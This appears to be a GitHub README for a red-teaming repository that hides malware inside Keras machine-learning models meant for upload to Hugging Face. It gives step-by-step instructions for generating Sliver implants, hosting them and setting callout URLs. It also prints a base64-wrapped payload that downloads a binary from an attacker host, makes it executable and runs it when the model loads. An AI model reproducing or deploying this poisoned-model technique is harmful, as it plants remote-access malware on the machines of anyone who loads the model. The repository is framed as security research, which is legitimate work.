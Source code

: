 # malicious_models
using ML models for red teaming 

![output of ml training](cover.png)

This code and repo has an accompanying blog post and talk:

https://5stars217.github.io/2023-08-08-red-teaming-with-ml-models/ 


**Here it is in action:** 

[![YouTube Video Thumbnail](https://img.youtube.com/vi/ghG5BFNC6w0/0.jpg)](https://www.youtube.com/watch?v=ghG5BFNC6w0)

## Requirements
Tested on: 
`Python 3.10`
`Python 3.9.6`
`tensorflow==2.13.0` 
`numpy==1.24.2`
`keras==2.13.1` 

##
Steps:
1) generate implants with a framework of your choice. Sliver Implants work well on lLnux, which is likely where this will detonate.

2) host the implant or stager somewhere

3) following the 'using' steps below to put the URLs and filenames in the right place.

## Using Simple_PoC

Modify lines 11 and 17 with your callout location and execution steps. 

More details in blog post. 

Execute the code - this will create a model folder which can be uploaded to hugging face. 

It will contain the bytecode of the exploit and not these python files. 
You will see a training output like this, indicating that it worked and is still generating proper model logic. 

![output of ml training](mloutput.png)



## Using Larger_PoC

Modify line 125 and 131 with your callout location and execution steps. 

This is what is in my b64 in line 131:

```
import os
import sys
import base64
import pickle
import requests
from tensorflow import keras 

r = requests.get("https://attacker.on.aws/", headers={'X-Plat': sys.platform})
dir = os.path.expanduser('~')
file = os.path.join(dir,'.training.bin')
with open(file,'wb') as f:
    f.write(r.content)
exec(base64.b64decode(“ ”)
# Inside the b64 we put this, but encoded:
import os, subprocess
os.chmod(file, 0o755)
try:
    subprocess.Popen([os.path.join(os.path.expanduser('~'),'.training.bin')], start_new_session=True)
except:
    pass
```
## Using the built model

Most model pipelines wo'nt have trouble runnign this model, to test locally, you can do this: 

predict.py:

 - Update the model name and data to match the defined input shape in your PoC code.

```
import numpy as np

from tensorflow import keras



model = keras.models.load_model("model_opendiffusion")

data = np.random.random((1, 32, 32, 3))

print(model.predict(data).squeeze())
``` 
